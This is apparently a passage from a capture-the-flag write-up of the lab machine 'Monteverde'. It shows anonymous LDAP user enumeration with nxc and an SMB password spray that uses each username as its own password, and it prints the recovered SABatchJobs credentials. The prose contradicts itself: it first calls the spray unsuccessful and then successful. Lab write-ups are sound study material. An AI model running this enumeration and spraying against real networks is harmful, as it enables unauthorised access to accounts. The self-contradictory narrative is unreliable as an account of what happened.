 The command performed an anonymous LDAP enumeration, extracted the usernames, and saved them to a file named users.txt.

```bash
 nxc ldap 10.129.228.111 -u '' -p '' --users --kdc MEGABANK.LOCAL | awk '{print $5}' >users.txt      

```
The file users.txt contains the list of enumerated domain users: Guest, AAD_987d7f2f57d2, mhope, SABatchJobs, svc-ata, svc-bexec, svc-netapp, dgalanos, roleary, and smorgan.

```output
cat users.txt 
[*]
[+]
[*]
-Username-
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```

A password spray attack was conducted against the SMB service using the username list as the password list. The attack was unsuccessful, as no valid credentials were obtained.

```bash
nxc smb 10.129.228.111 -u 'users.txt' -p 'users.txt' 
```

The password spray attack was successful. The user SABatchJobs was found to have the password SABatchJobs.

```output
MB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\[*]:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\-Username-:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
                                                                
```

The credentials for the user SABatchJobs were successfully validated against the SMB service on Monteverde.
